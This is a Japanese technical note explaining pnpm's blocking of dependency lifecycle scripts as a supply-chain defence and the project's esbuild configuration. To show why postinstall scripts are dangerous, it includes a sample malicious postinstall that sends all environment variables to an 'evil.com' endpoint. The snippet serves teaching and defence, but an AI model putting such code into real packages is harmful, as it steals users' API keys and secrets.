

# pnpm（ピーエヌピーエム）のビルドスクリプト制限

## 概要

pnpm v9 以降、依存パッケージの `postinstall` などのライフサイクルスクリプトがデフォルトでブロックされる。
サプライチェーン攻撃対策として導入された機能。

## ライフサイクルスクリプトとは

npm パッケージは `package.json` にライフサイクルスクリプトを定義できる：

```json
{
  "scripts": {
    "preinstall": "echo 'インストール前'",
    "postinstall": "echo 'インストール後'",
    "prepare": "echo 'パッケージ準備時'"
  }
}
```

| スクリプト | 実行タイミング |
|-----------|---------------|
| `preinstall` | パッケージのインストール前 |
| `postinstall` | パッケージのインストール後 |
| `prepare` | パッケージの公開前、または `npm install` 後 |

これらは `npm install` / `pnpm install` 時に**自動実行**される。

## なぜ危険か

`postinstall` は任意のコードを実行できるため、サプライチェーン攻撃のベクターになりうる：

```javascript
// 悪意あるパッケージの postinstall
const env = process.env;
fetch('https://evil.com/steal', {
  method: 'POST',
  body: JSON.stringify(env)  // 環境変数（API キー等）を窃取
});
```

実際の攻撃事例:
- 2021年: `ua-parser-js` がハイジャックされ、暗号通貨マイナーが仕込まれた
- 2022年: `node-ipc` が意図的に破壊的コードを含んだ

## pnpm v9 の対策

pnpm v9 以降、依存パッケージのビルドスクリプトはデフォルトで**ブロック**される。

```
$ pnpm install

│ Ignored build scripts: esbuild@0.27.2.
│ Run "pnpm approve-builds" to pick which dependencies should be allowed to run scripts.
```

### 設定方法

`pnpm approve-builds` を実行すると、対話形式で許可/無視を選択できる：

```
$ pnpm approve-builds

? esbuild@0.27.2 has a build script. Allow it?
> allow (run the script)
  ignore (don't run, but don't warn)
  deny (don't run, and warn if present)
```

設定は `package.json` の `pnpm` フィールドに保存される：

```json
{
  "pnpm": {
    "neverBuiltDependencies": ["esbuild"]
  }
}
```

| 設定 | 説明 |
|------|------|
| `neverBuiltDependencies` | スクリプトを実行しない（警告も出ない） |
| `onlyBuiltDependencies` | 指定したパッケージのみスクリプトを実行 |

## esbuild の場合

esbuild は Go 言語で書かれたネイティブバイナリ。`postinstall` で OS/アーキテクチャに応じたバイナリをダウンロードする。



### ignored でも動作する理由

esbuild は `optionalDependencies` としてプラットフォーム固有のパッケージを持つ：

```json
{
  "optionalDependencies": {
    "@esbuild/linux-x64": "0.27.2",
    "@esbuild/darwin-arm64": "0.27.2"
  }
}
```

pnpm は `postinstall` を実行しなくても、適切なオプショナル依存関係を解決してバイナリを取得できる。
そのため `neverBuiltDependencies` で問題なく動作する。

## 設定の選択基準

| 設定 | 用途 |
|------|------|
| `onlyBuiltDependencies` | 指定したパッケージのみスクリプトを実行 |
| `neverBuiltDependencies` | 指定したパッケージのスクリプトを実行しない |

判断のポイント:
1. まず `neverBuiltDependencies` で試す
2. 動作しなければ `onlyBuiltDependencies` に追加
3. `onlyBuiltDependencies` にする場合、パッケージの信頼性を確認

## プロジェクトでの運用

本プロジェクトでは `esbuild` を `neverBuiltDependencies` に設定：

```json
// frontend/package.json
{
  "pnpm": {
    "neverBuiltDependencies": ["esbuild"]
  }
}
```

理由:
- esbuild はオプショナル依存関係でバイナリを取得できる
- 不要なスクリプト実行を避ける
- `package.json` の設定が最も確実（`.npmrc` は効かないケースがある）

## 関連リソース

- [pnpm: onlyBuiltDependencies](https://pnpm.io/package_json#pnpmonlybuiltdependencies)
- [pnpm v9 リリースノート](https://github.com/pnpm/pnpm/releases/tag/v9.0.0)

---

## 変更履歴

| 日付 | 変更内容 |
|------|---------|
| 2026-01-19 | 初版作成 |
